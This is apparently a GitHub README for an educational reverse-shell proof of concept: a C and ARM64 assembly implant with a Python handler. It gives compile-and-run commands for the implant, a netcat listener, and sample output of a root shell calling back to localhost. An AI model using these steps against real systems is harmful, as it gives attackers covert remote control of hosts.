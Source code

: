 ```
  _____                                     _____ _          _ _ 
 |  __ \                                   / ____| |        | | |
 | |__) |_____   _____ _ __ ___  ___ _____| (___ | |__   ___| | |
 |  _  // _ \ \ / / _ \ '__/ __|/ _ \______\___ \| '_ \ / _ \ | |
 | | \ \  __/\ V /  __/ |  \__ \  __/      ____) | | | |  __/ | |
 |_|  \_\___| \_/ \___|_|  |___/\___|     |_____/|_| |_|\___|_|_|

```

A proof-of-concept reverse shell (written in C and ARM64/AARCH64 Assembly) and its handler (written in Python) for learning and educational purpose. The reverse shell is intended for x86 & x64 Linux based systems. However, by [using a cross-compiler](https://jensd.be/1126/linux/cross-compiling-for-arm-or-aarch64-on-debian-or-ubuntu), it can also be repurposed for ARM64/aarch64 Linux systems as well. Also, an ARM64 assembly code template has also been provided.

# Usage
This PoC is made of two components, a handler and the implant/reverse shell code. The implant/reverse shell code is written in C and ARM64/AARCH64 assembly code. This was done to -
- Learn more about reverse shell development, in C and ARM64 Assembly
- Have a reverse shell code that can be turned into shellcode

First, we execute the handler to listen on a particular address and port. The implant is also compatible with netcat
```bash
python3 python-handler.py 127.0.0.1 4444
```
The implant is also compatible with netcat, so it can also be used to manage a reverse shell connection.
```bash
nc -nvlp 127.0.0.1 4444 -s 127.0.0.1
```

Then, we compile the implant/reverse shell C code, and execute it by providing it with handler's listening address and port using the following steps -
```bash
# Compiling As C Code
gcc -o implant implant.c
./implant 127.0.0.1 4444
```

In order to use the ARM64 assembly code, use the following steps -
```bash
# Compiling As ARM64 Assembly Code
git clone https://github.com/pdoffl/Reverse-Shell.git
cd Reverse-Shell/ARM64-Assembly-Code
python3 python-implant_arm64-asmGenerator.py 127.0.0.1 4444
as -o implant_arm64.o implant_arm64.s
ld -o implant_arm64 implant_arm64.o
./implant_arm64
```
The steps above use a python script to embed Handler's IPv4 address and Port in the ARM64 Assembly template, and the final assembly code can be then assembled to create a binary that will connect to the handler and provide a shell when executed.

You'll see the connection on handler's end
```bash
[+] Handler Started On 127.0.0.1:4444
[+] Listening For Connections ...
[+] Connection Received From 127.0.0.1:58902
id
uid=0(root) gid=0(root) groups=0(root)
```

# Features
- Uses multithreaded handler to simultaneously handle receiving output from reverse shell, while sending commands from user
- Implant/reverse shell uses dup2() call to duplicate STDIN, STDOUT, STDERR across the network socket used to communicate with handler

# Potential Improvements
- Refined error handling on handler and implant's end
- Implementation of encryption for communication between handler and implant/reverse shell

# References
- https://pymotw.com/2/socket/tcp.html
- https://www.w3schools.com/python/python_try_except.asp
- https://docs.python.org/3/library/socket.html
- https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html
- https://www.idc-online.com/technical_references/pdfs/information_technology/Pairs_in_Python.pdf
- https://www.w3schools.com/python/python_user_input.asp
- https://www.geeksforgeeks.org/python-convert-string-to-bytes/
- https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/
- https://anubissec.github.io/Creating-a-Reverse-Shell/
